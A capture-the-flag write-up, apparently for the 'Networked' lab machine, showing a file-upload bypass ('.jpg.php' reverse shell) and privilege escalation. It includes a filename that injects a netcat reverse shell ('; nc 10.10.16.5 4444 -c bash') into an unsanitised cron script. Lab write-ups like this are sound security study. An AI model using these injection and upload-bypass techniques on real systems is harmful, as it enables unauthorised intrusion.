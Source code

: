# Networked

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### File Upload RCE

First, we can use `gobuster` on the website:

<figure><img src="../../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>

The `/backup` directory would show us a directory with a backup file:

<figure><img src="../../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:

<figure><img src="../../../.gitbook/assets/image (77) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (168) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:

<figure><img src="../../../.gitbook/assets/image (154) (4).png" alt=""><figcaption></figcaption></figure>

The crontab specifies that the user is running the `check_attack` script routinely.

<figure><img src="../../../.gitbook/assets/image (169) (2).png" alt=""><figcaption></figcaption></figure>

One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:

<figure><img src="../../../.gitbook/assets/image (28) (2) (4).png" alt=""><figcaption></figcaption></figure>

### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.

<figure><img src="../../../.gitbook/assets/image (58) (4).png" alt=""><figcaption></figcaption></figure>

Here's the script's contents:

<figure><img src="../../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, we just need to run `/bin/bash`:

<figure><img src="../../../.gitbook/assets/image (23) (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
